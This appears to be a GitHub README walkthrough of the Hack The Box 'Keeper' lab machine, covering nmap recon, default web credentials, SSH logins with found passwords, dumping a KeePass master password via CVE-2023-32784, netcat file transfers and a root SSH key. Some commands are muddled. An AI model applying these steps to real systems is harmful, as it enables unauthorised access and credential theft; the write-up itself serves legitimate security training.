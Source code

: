 # Unlocking the Secrets of Keeper: A Journey to Root Access

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/274cad23-f3e3-4ac9-b9a0-b2b6539d214e" align="center" alt="keeper-htb" />
</p>


## Introduction

In the exhilarating realm of ethical hacking, each machine encountered on platforms like Hack The Box presents fresh challenges and captivating discoveries. Keeper, an enigmatic HTB machine, follows suit. This guide will lead you through a systematic journey to conquer Keeper, navigating from the initial foothold to securing the coveted root flag. So, equip your virtual backpack, don your ethical hacker hat, and let's plunge into the adventure!

## Step 1: Setting the Stage

The first step is to identify the machine's IP address. We'll use this address to create a handy host entry for easy access.


```bash
echo "ip tickets.keeper.htb" | sudo tee -a /etc/hosts
```

## Step 2: Reconnaissance with Nmap
Now that we're properly set up, it's time to scan for open ports. We'll start with a basic scan to identify ports 22 (SSH) and 80 (HTTP).

```bash
nmap -p 22,80 tickets.keeper.htb/ipaddressofmachine
```

## Step 3: Exploring the Web
Access the machine's IP address in your browser and observe the redirection to the login page. It's time to play detective and try some random credentials. Miraculously, we're in!

```
Username: root
Password: password
```

## Step 4: The Admin Panel
Navigate to the admin section and prepare to uncover a user's password.

## Step 5: SSH Connection
Connect via SSH using the provided credentials:

```bash

ssh lnorgaard@tickets.keeper.htb Password: Welcome2023!
```

## Step 6: User Flag
With SSH access in hand, locate the user flag:

```bash

ls cat user.txt
```

## Step 7: The CVE and Keepass
Discover a critical CVE and grab the exploit from the following link: [CVE-2023-32784(poc.py)](10.10.11.227/poc.py). Download it to your local machine.

## Step 8: Moving Files
To transfer files between your local machine and the HTB machine, you can use netcat. Run the following commands:

## On the HTB machine:

```bash
nc -nlvp 1234 > poc.py
```

## On your local machine:

```bash
nc [keeperip] 1234 < poc.py
```

Verify the file transfer with ls and cat poc.py.

## Step 9: Exploiting Keepass
Execute the exploit on the HTB machine:


```bash
python3 poc.py -d KeePassDumpFull.dmp
```

_Retrieve the password: rødgrød med fløde_

## Step 10: Using Keepass
Back on your local machine, install Keepass2 with:

```bash

apt install keepass2
```

## Step 11: Unveiling the Secrets
On the HTB machine, locate passcodes.kdbx. Transfer it to your local machine using netcat.

## On your local machine:

```bash
nc -nlvp 1234 > passcodes.kdbx
```
After a brief wait, __press Ctrl+C__.

## Step 12: Keepass Unlocked
Open Keepass2, select "Open File," and choose passcodes.kdbx. Enter the password you found (rødgrød med fløde). Inside, you'll discover user and root credentials.

## Step 13: Root Access
Access the root SSH key, copy it, and save it as root.ppk. Use Puttygen to convert the key:

```bash
puttygen root.ppk -O private-openssh -o id_rsa
```
Finally, SSH into Keeper with root privileges:

```bash
ssh root@tickets.keeper.htb -i id_rsa
```
Discover the root flag:

```bash
ls cat root.txt
```

<hr><ht/>

  # CVE-2023-32784 
  ___KeePass2 Master Password Dumper (CVE-2023-32784)___

  This is a CVE-2023-32784 proof-of-concept implemented in Rust. The code is probably ugly due to my poor coding skills, feel free to make a PR to improve it.


  CVE-Credit:vdohney
<hr><ht/>


  
# Conclusion:
Our experience in conquering the Keeper HTB machine was not only exciting but also educational. We trust that this guide has illuminated the path of ethical hacking, spanning from the initial reconnaissance phase to achieving root access. Always bear in mind that ethical hacking is a journey of learning, self-challenge, and continuous enhancement of your cybersecurity skills. Happy hacking!
